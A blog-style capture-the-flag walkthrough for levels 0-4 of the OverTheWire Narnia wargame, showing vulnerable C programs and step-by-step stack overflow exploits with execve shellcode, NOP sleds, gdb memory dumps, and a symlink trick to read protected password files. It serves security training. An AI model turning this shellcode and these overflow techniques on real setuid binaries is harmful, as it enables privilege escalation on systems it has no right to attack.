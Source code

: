Solving Narnia Part 1
#####################

:title: Solving Narnia Part 1
:date: 2015-04-08T00
:modified: 2015-04-08 12
:tags:


Next up we take on `Narnia <http://overthewire.org/wargames/narnia/>`_. This is a 
binary exploit centered wargame, so fire up your debuggers and let's smash those
stacks. For levels 5, 6, 7, and 8, see `part 2 <http://unlogic.co.uk/2015/04/13/solving-narnia-part-2/>`_

All levels are in :code:`/narnia` and both the binary and the source are provided.

I've not included the passwords here, so you'll have to work through
the exercises yourself (or find them elsewhere :))

Level 00 ##
-----------

.. code-block:: c  "linenos=table"

	#include <stdio.h>
	#include <stdlib.h>
	
	int main(){
	        long val=0x41414141;
	        char buf[20];
	
	        printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
	        printf("Here is your chance: ");
	        scanf("%24s",&buf);
	
	        printf("buf: %s\n",buf);
	        printf("val: 0x%08x\n",val);
	
	        if(val==0xdeadbeef)
	                system("/bin/sh");
	        else {
	                printf("WAY OFF!!!!\n");
	                exit(1);
	        }
	
	        return 0;
	}

Lines 8 and 9 tell us what we need to do. So knowing how variable allocation
on the stack works, we can exploit the setup on lines 5 and 6. :code:`buf` is a 
fixed size and is allocated *after* :code:`val`. Therefore it sits above :code:`val` on
the stack. As there is no `ASLR <https://en.wikipedia.org/wiki/Address_space_layout_randomization>`_
we should be able to write over the end of :code:`buf` and overwrite what is in memory
at :code:`val`'s location.

So let's try it

.. code-block:: console

	narnia0@melinda:/narnia$ python -c "print 'C'*50" | ./narnia0 
	Correct val's value from 0x41414141 -> 0xdeadbeef!
	Here is your chance: buf: CCCCCCCCCCCCCCCCCCCCCCCC
	val: 0x43434343
	WAY OFF!!!!

Right, we can confirm that we are able to change the value of :code:`val`. Let's
tread a bit more carefully and try to see if we can do it more accurately

.. code-block:: console

	narnia0@melinda:/narnia$ python -c "print 'C'*20 + 'BBBB'" | ./narnia0 
	Correct val's value from 0x41414141 -> 0xdeadbeef!
	Here is your chance: buf: CCCCCCCCCCCCCCCCCCCCBBBB
	val: 0x42424242
	WAY OFF!!!!

So there is no space between :code:`val` and :code:`buf`, therefore 20 characters plus a 
further 4 is enough to change val. Let's write in the correct value, reversed of
course because of the endian notation

.. code-block:: console

	narnia0@melinda:/narnia$ python -c "print 'C'*20 + '\xef\xbe\xad\xde'" | ./narnia0
	Correct val's value from 0x41414141 -> 0xdeadbeef!
	Here is your chance: buf: CCCCCCCCCCCCCCCCCCCCﾭ
	val: 0xdeadbeef
	narnia0@melinda:/narnia$

We did it.... but wait, where's the shell? It's closed, that's where it is. We
need to keep it open. The trick is to append the :code:`cat` command to the input

.. code-block:: console

	narnia0@melinda:/narnia$ (python -c "print 'C'*20 + '\xef\xbe\xad\xde'"; cat) | ./narnia0
	Correct val's value from 0x41414141 -> 0xdeadbeef!
	Here is your chance: buf: CCCCCCCCCCCCCCCCCCCCﾭ
	val: 0xdeadbeef
	id
	uid=14000(narnia0) gid=14000(narnia0) euid=14001(narnia1) groups=14001(narnia1),14000(narnia0)
	whoami
	narnia1
	cat /etc/narnia_pass/narnia1
	[password]

Level 01 ##
-----------

.. code-block:: c "linenos=table"

	#include <stdio.h>
	
	int main(){
		int (*ret)();
	
		if(getenv("EGG")==NULL){    
			printf("Give me something to execute at the env-variable EGG\n");
			exit(1);
		}
	
		printf("Trying to execute EGG!\n");
		ret = getenv("EGG");
		ret();
	
		return 0;
	}

So here we need to set an environment variable named :code:`EGG` to something
we want executed. We can't just pass :code:`/bin/bash` as it's going to call whatever
we give it as a function. Ideally we want a shell, so what we need in this case
is the shellcode to do just that.

.. code-block:: console

	narnia1@melinda:/narnia$ export EGG=$(python -c'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"')
	narnia1@melinda:/narnia$ ./narnia1
	Trying to execute EGG!
	$ whoami
	narnia2
	$ cat /etc/narnia_pass/narnia2
	[password]

Level 02 ##
-----------

.. code-block:: c "linenos=table"

	#include <stdio.h>
	#include <string.h>
	#include <stdlib.h>
	
	int main(int argc, char * argv[]){
		char buf[128];
	
		if(argc == 1){
			printf("Usage: %s argument\n", argv[0]);
			exit(1);
		}
		strcpy(buf,argv[1]);
		printf("%s", buf);
	
		return 0;
	}

The biggest clues here are lines 6 and 12. Copying user supplied data
into a fixed sized array without any bound checking is always asking for 
trouble. :code:`narnia2` binary also runs as setuid narnia3, which leads us to believe
we will be able to control the stack and get it to execute a payload of our 
choosing. Of course this will be a shellcode to drop us into a shell.

First we need to work out how much data is needed to overwrite :code:`EIP`. We can
do this by trial and error, or we can use a pattern generator. I am going to
use my `pattern generator <https://github.com/Svenito/exploit-pattern>`_ instead
of metasploit's one. I'll create a payload big enugh to overflow the 
buffer and then check the value of :code:`EIP`. Pasting that back into the pattern
generator will tell us at what location in the pattern the string occurs.

.. code-block:: console

	local $] ./pattern.py 150
	Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5
	Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9

.. code-block:: console

	narnia2@melinda:/narnia$ gdb -q narnia2
	Reading symbols from narnia2...(no debugging symbols found)...done.
	(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
	Starting program: /games/narnia/narnia2 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
	
	Program received signal SIGSEGV, Segmentation fault.
	0x37654136 in ?? ()
	(gdb) info reg
	eax            0x0	0
	ecx            0x0	0
	edx            0xf7fcb898	-134432616
	ebx            0xf7fca000	-134438912
	esp            0xffffd640	0xffffd640
	ebp            0x65413565	0x65413565
	esi            0x0	0
	edi            0x0	0
	eip            0x37654136	0x37654136
	eflags         0x10282	[ SF IF RF ]
	cs             0x23	35
	ss             0x2b	43
	ds             0x2b	43
	es             0x2b	43
	fs             0x0	0
	gs             0x63	99

.. code-block:: console

	local $] ./pattern.py 0x37654136
	Pattern 0x37654136 first occurrence at position 140 in pattern.

We can control :code:`EIP` with whatever we put at position 140 of our payload. But
what do we put there? Well for that we need to figure out where the rest of our
data is going. Using a known payload let's see where our input ends up:

.. code-block:: console

	(gdb) run $(python -c "print 'a' * 140 + 'b' * 4")
	Starting program: /games/narnia/narnia2 $(python -c "print 'a' * 140 + 'b' * 4")
	
	Program received signal SIGSEGV, Segmentation fault.
	0x62626262 in ?? ()
	(gdb) x/200x $esp
	(gdb) x/200x $esp
	0xffffd650:	0x00000000	0xffffd6e4	0xffffd6f0	0xf7feacea
	0xffffd660:	0x00000002	0xffffd6e4	0xffffd684	0x08049768
	0xffffd670:	0x0804821c	0xf7fca000	0x00000000	0x00000000
	0xffffd680:	0x00000000	0xed18585e	0xd520bc4e	0x00000000
	0xffffd690:	0x00000000	0x00000000	0x00000002	0x08048360
	0xffffd6a0:	0x00000000	0xf7ff0500	0xf7e3c979	0xf7ffd000
	0xffffd6b0:	0x00000002	0x08048360	0x00000000	0x08048381
	0xffffd6c0:	0x0804845d	0x00000002	0xffffd6e4	0x080484d0
	0xffffd6d0:	0x08048540	0xf7feb180	0xffffd6dc	0x0000001c
	0xffffd6e0:	0x00000002	0xffffd812	0xffffd828	0x00000000
	0xffffd6f0:	0xffffd8b9	0xffffd8cd	0xffffd8dd	0xffffd8f0
	0xffffd700:	0xffffd913	0xffffd927	0xffffd930	0xffffd93d
	0xffffd710:	0xffffde5e	0xffffde69	0xffffde75	0xffffded3
	0xffffd720:	0xffffdeea	0xffffdef9	0xffffdf05	0xffffdf16
	0xffffd730:	0xffffdf1f	0xffffdf32	0xffffdf3a	0xffffdf4a
	0xffffd740:	0xffffdf80	0xffffdfa0	0xffffdfc0	0x00000000
	0xffffd750:	0x00000020	0xf7fdbb60	0x00000021	0xf7fdb000
	0xffffd760:	0x00000010	0x1f898b75	0x00000006	0x00001000
	0xffffd770:	0x00000011	0x00000064	0x00000003	0x08048034
	0xffffd780:	0x00000004	0x00000020	0x00000005	0x00000008
	0xffffd790:	0x00000007	0xf7fdc000	0x00000008	0x00000000
	0xffffd7a0:	0x00000009	0x08048360	0x0000000b	0x000036b2
	0xffffd7b0:	0x0000000c	0x000036b2	0x0000000d	0x000036b2
	0xffffd7c0:	0x0000000e	0x000036b2	0x00000017	0x00000000
	0xffffd7d0:	0x00000019	0xffffd7fb	0x0000001f	0xffffdfe2
	0xffffd7e0:	0x0000000f	0xffffd80b	0x00000000	0x00000000
	0xffffd7f0:	0x00000000	0x00000000	0xe8000000	0x7c03ba19
	0xffffd800:	0x2bd0895a	0x3866226d	0x69ad5957	0x00363836
	0xffffd810:	0x672f0000	0x73656d61	0x72616e2f	0x2f61696e
	0xffffd820:	0x6e72616e	0x00326169	0x61616161	0x61616161
	0xffffd830:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd840:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd850:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd860:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd870:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd880:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd890:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd8a0:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd8b0:	0x61616161	0x62626262	0x47445800	0x5345535f
	0xffffd8c0:	0x4e4f4953	0x3d44495f	0x30333035	0x45485300
	0xffffd8d0:	0x2f3d4c4c	0x2f6e6962	0x68736162	0x52455400
	0xffffd8e0:	0x78723d4d	0x322d7476	0x6f633635	0x00726f6c
	0xffffd8f0:	0x5f485353	0x45494c43	0x323d544e	0x322e3231
	0xffffd900:	0x37352e33	0x3136312e	0x35333320	0x34203932
	0xffffd910:	0x53003334	0x545f4853	0x2f3d5954	0x2f766564
	0xffffd920:	0x2f737470	0x4c003033	0x4c415f43	0x00433d4c
	0xffffd930:	0x52455355	0x72616e3d	0x3261696e	0x5f534c00
	0xffffd940:	0x4f4c4f43	0x723d5352	0x3a303d73	0x303d6964
	0xffffd950:	0x34333b31	0x3d6e6c3a	0x333b3130	0x686d3a36
	0xffffd960:	0x3a30303d	0x343d6970	0x33333b30	0x3d6f733a

We see our payload start at :code:`0xffffd828` with the last 4 bytes at :code:`0xffffd8b4`

The buffer gives us 128 bytes to play with. Our shellcode is 25 bytes, so we'll pad the
start with a `nop sled <https://en.wikipedia.org/wiki/NOP_slide>`_ to adjust for
the memory offset introduced by :code:`gdb`. Then set the :code:`EIP` to somewhere in the middle
of the sled

.. code-block:: console

	narnia2@melinda:/narnia$ ./narnia2 `python -c "print '\x90'*115 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80' + '\x60\xd8\xff\xff'"`
	$ whoami
	narnia3
	$ cat /etc/narnia_pass/narnia3
	[password]

Level 03 ##
-----------

.. code-block:: c "linenos=table"

	#include <stdio.h>
	#include <sys/types.h>
	#include <sys/stat.h>
	#include <fcntl.h>
	#include <unistd.h>
	#include <stdlib.h>
	#include <string.h> 
	
	int main(int argc, char **argv){
	 
	        int  ifd,  ofd;
	        char ofile[16] = "/dev/null";
	        char ifile[32];
	        char buf[32];
	 
	        if(argc != 2){
	                printf("usage, %s file, will send contents of file 2 /dev/null\n",argv[0]);
	                exit(-1);
	        }
	 
	        /* open files */
	        strcpy(ifile, argv[1]);
	        if((ofd = open(ofile,O_RDWR)) < 0 ){
	                printf("error opening %s\n", ofile);
	                exit(-1);
	        }
	        if((ifd = open(ifile, O_RDONLY)) < 0 ){
	                printf("error opening %s\n", ifile);
	                exit(-1);
	        }
	 
	        /* copy from file1 to file2 */
	        read(ifd, buf, sizeof(buf)-1);
	        write(ofd,buf, sizeof(buf)-1);
	        printf("copied contents of %s to a safer place... (%s)\n",ifile,ofile);
	 
	        /* close 'em */
	        close(ifd);
	        close(ofd);
	 
	        exit(1);
	}
	

At first glance this looks a bit more complicated. However it is just another
buffer overflow (line 13 and 22). This time however we don't control the stack, 
we control where the file gets written to. :code:`/dev/null` is not a useful place
for data, and we want the contents of :code:`/etc/narnia_pass/narnia4`. As :code:`narnia3` runs 
setuid narnia4, it can do that for us.

First we determine that we need 32 characters to overflow the buffer. Then anything
beyond that will get written to the ofile. So the plan is to to create a symlink to
:code:`narnia4` that is 32 characters long, and then write that to the target. The issue here
is that the source path's last 16 characters need to be the same as the target.
So to do this I created the following directory and symlink:

.. code-block:: console

	narnia3@melinda:/narnia$ mkdir -p /tmp/xxxxxxxxxxxxxxxxxxxxxxxxxxx/tmp
	narnia3@melinda:/narnia$ ln -s /etc/narnia_pass/narnia4 /tmp/xxxxxxxxxxxxxxxxxxxxxxxxxxx/tmp/narn4

Now when we pass that to :code:`narnia3`:

.. code-block:: console

	narnia3@melinda:/narnia$ ./narnia3 `python -c "print '/tmp/' + 'x'*27 + '/tmp/narn4'"` 
	copied contents of /tmp/xxxxxxxxxxxxxxxxxxxxxxxxxxx/tmp/narn4 to a safer place... (/tmp/narn4)
	narnia3@melinda:/narnia$ cat /tmp/narn4 
	[password]

It's a little odd, but I hope you understand what happened. The last part of the 
first path has to be a valid path, so that it can be written to. That's why we have 
the double :code:`/tmp` setup.

Level 04 ##
-----------

.. code-block:: c "linenos=table"

	#include <string.h>
	#include <stdlib.h>
	#include <stdio.h>
	#include <ctype.h>
	
	extern char **environ;
	
	int main(int argc,char **argv){
		int i;
		char buffer[256];
	
		for(i = 0; environ[i] != NULL; i++)
			memset(environ[i], '\0', strlen(environ[i]));
	
		if(argc>1)
			strcpy(buffer,argv[1]);
	
		return 0;
	}

MOAR OVERFLOWS. This time you'll notice something at line 6. What this does
is `store the user environment <http://man7.org/linux/man-pages/man7/environ.7.html>`_.
This then get zerod out inside :code:`main` to prevent us from storing any shellcode
in environment variables. However we might still be able to write :code:`EIP`, so using the
trusty pattern generator from before

.. code-block:: console

	local $] ./pattern.py 300
	Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7
	Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5
	Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3
	Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9

.. code-block:: console

	narnia4@melinda:/narnia$ gdb -q ./narnia4 
	Reading symbols from ./narnia4...(no debugging symbols found)...done.
	(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5
	Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4
	Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3
	Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
	Starting program: /games/narnia/narnia4 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5
	Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4
	Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3
	Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
	
	Program received signal SIGSEGV, Segmentation fault.
	0x316a4130 in ?? ()

.. code-block:: console

	local $] ./pattern.py 0x316a4130
	Pattern 0x316a4130 first occurrence at position 272 in pattern.

This tells us we have 272 bytes to play with. Plenty of space to construct
a nopsled and shellcode payload. Let's find out what we need to write into
:code:`EIP`.

.. code-block:: console

	(gdb) r $(python -c "print 'a'*272 + 'bbbb'")
	Starting program: /games/narnia/narnia4 $(python -c "print 'a'*272 + 'bbbb'")
	
	Program received signal SIGSEGV, Segmentation fault.
	0x62626262 in ?? ()
	(gdb) x/200x $esp
	0xffffd5c0:	0x00000000	0xffffd654	0xffffd660	0xf7feacea
	0xffffd5d0:	0x00000002	0xffffd654	0xffffd5f4	0x080497cc
	0xffffd5e0:	0x0804825c	0xf7fca000	0x00000000	0x00000000
	0xffffd5f0:	0x00000000	0x7cc8a421	0x44f76031	0x00000000
	0xffffd600:	0x00000000	0x00000000	0x00000002	0x080483b0
	0xffffd610:	0x00000000	0xf7ff0500	0xf7e3c979	0xf7ffd000
	0xffffd620:	0x00000002	0x080483b0	0x00000000	0x080483d1
	0xffffd630:	0x080484ad	0x00000002	0xffffd654	0x08048550
	0xffffd640:	0x080485c0	0xf7feb180	0xffffd64c	0x0000001c
	0xffffd650:	0x00000002	0xffffd78f	0xffffd7a5	0x00000000
	0xffffd660:	0xffffd8ba	0xffffd8ce	0xffffd8de	0xffffd8f1
	0xffffd670:	0xffffd914	0xffffd927	0xffffd930	0xffffd93d
	0xffffd680:	0xffffde5e	0xffffde69	0xffffde75	0xffffded3
	0xffffd690:	0xffffdeea	0xffffdef9	0xffffdf05	0xffffdf16
	0xffffd6a0:	0xffffdf1f	0xffffdf32	0xffffdf3a	0xffffdf4a
	0xffffd6b0:	0xffffdf80	0xffffdfa0	0xffffdfc0	0x00000000
	0xffffd6c0:	0x00000020	0xf7fdbb60	0x00000021	0xf7fdb000
	0xffffd6d0:	0x00000010	0x1f898b75	0x00000006	0x00001000
	0xffffd6e0:	0x00000011	0x00000064	0x00000003	0x08048034
	0xffffd6f0:	0x00000004	0x00000020	0x00000005	0x00000008
	0xffffd700:	0x00000007	0xf7fdc000	0x00000008	0x00000000
	0xffffd710:	0x00000009	0x080483b0	0x0000000b	0x000036b4
	0xffffd720:	0x0000000c	0x000036b4	0x0000000d	0x000036b4
	0xffffd730:	0x0000000e	0x000036b4	0x00000017	0x00000000
	0xffffd740:	0x00000019	0xffffd76b	0x0000001f	0xffffdfe2
	0xffffd750:	0x0000000f	0xffffd77b	0x00000000	0x00000000
	0xffffd760:	0x00000000	0x00000000	0x9e000000	0x9213cb6c
	0xffffd770:	0x8eef41b1	0xe0574cc7	0x69a73659	0x00363836
	0xffffd780:	0x00000000	0x00000000	0x00000000	0x2f000000
	0xffffd790:	0x656d6167	0x616e2f73	0x61696e72	0x72616e2f
	0xffffd7a0:	0x3461696e	0x61616100	0x61616161	0x61616161
	0xffffd7b0:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd7c0:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd7d0:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd7e0:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd7f0:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd800:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd810:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd820:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd830:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd840:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd850:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd860:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd870:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd880:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd890:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd8a0:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd8b0:	0x61616161	0x62626261	0x00000062	0x00000000
	0xffffd8c0:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd8d0:	0x00000000	0x00000000	0x00000000	0x00000000

Our input starts at around *0xffffd7a8* so let's get going writing our payload.
Create a nopsled that is *272 - 25* bytes long, follow that with the
the same shellcode as before, and finish with an address that sits comfortably
in the sled. You normally need to play with the address a bit, as the offsets
inside *gdb* are a bit different.

.. code-block:: console

	narnia4@melinda:/narnia$ ./narnia4 `python -c "print '\x90'*(272-25) + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80' + '\x30\xd8\xff\xff'"`
	$ whoami
	narnia5
	$ cat /etc/narnia_pass/narnia5
	[password]
